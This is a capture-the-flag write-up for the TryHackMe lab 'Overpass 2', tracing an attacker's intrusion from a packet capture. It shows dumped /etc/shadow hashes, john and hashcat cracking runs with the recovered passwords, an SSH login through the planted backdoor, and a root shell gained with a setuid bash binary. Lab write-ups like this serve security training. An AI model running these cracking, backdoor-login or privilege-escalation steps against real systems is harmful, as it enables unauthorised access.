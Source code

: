 ## Overpass 2
https://tryhackme.com/room/overpass2hacked

## Task 1

### What was the URL of the page they used to upload a reverse shell?
![image](https://user-images.githubusercontent.com/6504854/191254699-6774acbc-b6eb-433a-b43a-22690172b560.png)

🏴 Frame 14

/development/upload.php

### What payload did the attacker use to gain access?
![image](https://user-images.githubusercontent.com/6504854/191255059-5fa765e2-041f-4b9d-a02b-4678a1ba71c7.png)

![image](https://user-images.githubusercontent.com/6504854/191255232-b5fb4f36-e8a0-495d-b6c6-3f14ff09eb8d.png)

🏴 Frame 14->follow->TCP

### What password did the attacker use to privesc?
![image](https://user-images.githubusercontent.com/6504854/191256165-5afe8917-1263-484c-8bfd-8da913dbf7af.png)

![image](https://user-images.githubusercontent.com/6504854/191256341-77e703af-ced4-4536-a387-52166359004f.png)

🏴 Frame 96->follow->TCP

### How did the attacker establish persistence?
![image](https://user-images.githubusercontent.com/6504854/191256836-33912838-cb81-4eba-82c3-b95d53ae6d4a.png)

### Using the fasttrack wordlist, how many of the system passwords were crackable?
![image](https://user-images.githubusercontent.com/6504854/191257016-7e8f4cdd-42b9-4689-b783-b5083825fc75.png)

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

🏴 I found 5 hashes in /etc/shadow file and saved hash1.txt.

```
john hash1.txt --wordlist=/data/src/wordlists/fasttrack.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```

## Task 2
### What's the default hash for the backdoor?
![image](https://user-images.githubusercontent.com/6504854/191260073-563089cd-c17a-48ed-90d5-d4ce7bd13233.png)

### What's the hardcoded salt for the backdoor?
![image](https://user-images.githubusercontent.com/6504854/191260306-1ce62a1e-591d-46d7-8c56-e533835edf0f.png)

### What was the hash that the attacker used? - go back to the PCAP for this!
![image](https://user-images.githubusercontent.com/6504854/191260570-e7667bae-46f5-49d4-939f-19bdb7e960da.png)

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?
#### HINT It's salted, so make sure you use the correct mode. This also means crackstation etc won't work.
![image](https://user-images.githubusercontent.com/6504854/191261181-543ff94b-ebec-4a0c-bb67-55a2a6737bd3.png)
```
echo '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05' > hash.txt
hashcat --force -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt 

hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-4800MQ CPU @ 2.70GHz, 1024/3144 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256
                                                                                                                                                                                      
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=14 -D DGST_R1=15 -D DGST_R2=6 -D DGST_R3=7 -D DGST_ELEM=16 -D KERN_TYPE=1710 -D _unroll'                                                                                          
* Device #1: Kernel m01710_a0-pure.dcb403f5.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
```
🏴 james's pass is november16

## Task 3
![image](https://user-images.githubusercontent.com/6504854/191261921-a139f6ee-d7ea-4d16-80c7-177aace9f9a8.png)

🏴 ssh-back-door sets lport = 2222
```
ssh 10.10.120.188 -p 2222

james@overpass-production:/home/james/ssh-backdoor$ ls -la

james@overpass-production:/home/james/ssh-backdoor$ ls /home
bee  james  muirland  paradox  szymex

james@overpass-production:/home/james/ssh-backdoor$ cd /home/james

james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www

james@overpass-production:/home/james$ cat user.txt
thm{d1*********************************}

james@overpass-production:/home/james$ file .suid_bash
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped

james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cat /root/root.txt

thm{d5*********************************}
```

Congratrations! Happy Hacking 😄

コマンドとか引用されたら嫌なので、しばらくプラベで潜伏してた😄


